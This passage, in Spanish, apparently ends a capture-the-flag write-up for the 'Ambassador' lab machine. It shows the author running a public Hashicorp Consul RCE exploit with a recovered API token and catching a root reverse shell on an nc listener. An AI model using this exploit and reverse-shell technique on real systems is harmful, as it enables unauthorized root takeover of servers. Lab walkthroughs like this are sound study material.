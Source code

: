 Vemos un token que usa para consul, perfecto! Vamos a poner a prueba el exploit que encontré anteriormente. https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API

```bash
developer@ambassador:/tmp$ python3 exploit.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.16.6 --lport 443 --token bb03b43b-1d81-d62b-24b5-39540ee469b5

[+] Request sent successfully, check your listener

developer@ambassador:/tmp$ 
- 
❯ nc -lvvp 443
listening on [any] 443 ...
10.10.11.183: inverse host lookup failed: Unknown host
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.183] 58748
bash: cannot set terminal process group (1929): Inappropriate ioctl for device
bash: no job control in this shell
root@ambassador:/# 
```

Hemos ganado acceso como root! Espero que te haya servido!


